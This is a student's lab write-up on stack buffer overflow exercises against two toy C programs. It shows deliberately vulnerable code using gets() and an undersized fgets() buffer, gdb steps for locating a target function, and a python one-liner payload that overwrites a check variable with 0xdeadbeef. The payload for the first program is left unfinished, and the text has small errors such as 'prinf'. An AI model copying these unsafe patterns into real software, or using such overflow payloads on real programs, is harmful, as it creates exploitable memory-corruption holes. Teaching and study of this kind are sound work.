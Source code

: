 # 22110026, Lê Huy Hoàng
**Lab#1: Conduct buffer overflow attack on _bof1.c_, _bof2.c_, _bof3.c_ programs.**
## bo1.c
Conduct a buffer overflow attack on _bof1.c_ 
```ruby
#include<stdio.h>
#include<unistd.h>
void secretFunc()
{
    printf("Congratulation!\n:");
}
int vuln(){
    char array[200];
    printf("Enter text:");
    gets(array);
    return 0;
}
int main(int argc, char*argv[]){
    if (argv[1]==0){
        prinf("Missing arguments\n");
    }
    vuln();
    return 0;
}
```
1. **Vulnerabilities:** the`get() function` is unsafe because it does not perform any bounds checking on the input. If the user provides input larger than the buffer (which is `char array[200]` in this case), it will overwrite adjacent memory locations, potentially including the return address of the `vuln() function`.
2. **Goal:** You want to overflow the array buffer in such a way that the return address is overwritten with the address of `secretFunc()`
 - Step 1: Indentify the buffer size and offsets
  - The buffer `array` is 200 bytes, but you need to determine where the return address is stored relative to the start of the buffer.
  - This can be done by trial and error, injecting a large enough input to identify when the overflow occurs.
 - Step 2: Find the Address of `secretFunc()`
  - You can use a debugger (e.g.,`gdb`) to find the address of `secretFunc()`. The address of this function will be injected into the return address location. Use `gdb` to compile and load the program:
    ```ruby
    gcc -g bof1.c -o bof1
    gdb ./bof1
    ```
  - Inside `gdb`, find the address of `secretFunc()`:
    ```ruby
    (gdb) disassemble secretFunc
    ```
  - This will give you the memory address where `secretFunc()` is stored.
    ```ruby
    (gdb) disassemble secretFunc
    Dump of assembler code for function secretFunc:
    0x00000000000011b5 <+0>:     push   %rbp
    0x00000000000011b6 <+1>:     mov    %rsp,%rbp
    0x00000000000011b9 <+4>:     lea    0xe40(%rip),%rax        # 0x2000
    0x00000000000011c0 <+11>:    mov    %rax,%rdi
    0x00000000000011c3 <+14>:    mov    $0x0,%eax
    0x00000000000011c8 <+19>:    call   0x1020 <printf@plt>
    0x00000000000011cd <+24>:    nop
    0x00000000000011ce <+25>:    pop    %rbp
    0x00000000000011cf <+26>:    ret
    End of assembler dump.
    (gdb) 
    ```
 - The address is  `0x00000000000011b5`.
 - Step 3: Craft the malicious input
   - 200 characters to fill up the buffer
   - Additional padding to reach the return address
   - the return address of `secretFunc()`

## bof2.c
Conduct a buffer overflow attack on _bof2.c_ 
```ruby
#include <stdlib.h>
#include <stdio.h>
void main(int argc, char *argv[])
{
  int var;
  int check = 0x04030201;
  char buf[40];
  fgets(buf,45,stdin);
  printf("\n[buf]: %s\n", buf);
  printf("[check] 0x%x\n", check);
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
  if (check == 0xdeadbeef)
   {
     printf("Yeah! You win!\n");
   }
}
```
###Step 1: Compile the program
First, ensure the program is compiled without stack protection and with debugging information. You can use the following command:
```gcc -o buffer_overflow buffer_overflow.c -fno-stack-protector -z execstack -g```
###Step 2: Run the program
```./bof2```
###Step 3: Check the buffer size
You can do this by input some random things, for example: 
```ruby
/mnt/d/uni/2025/info/seclabs/bof $ ./bof2
test input
[buf]: test input
[check] 0x4030201
```
###Step 4: Create a exploit input
You need to construct an input that:
    - Fills buf with 40 characters.
    - Overwrites check with the value 0xdeadbeef in little-endian format.
###Step 5: Generate the input
```python -c 'print("A" * 40 + "\xef\xbe\xad\xde")' > exploit_input```
This command creates a file named exploit_input containing:
    - 40 'A's (filling buf)
    - The bytes ef be ad de (overwriting check)
###Step 6: run the program with exploit input
```./bof2 < exploit_input```
###Step 7: Check the output
If successful, you get this: 
```ruby
[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[check] 0xdeadbeef
Yeah! You win!
```

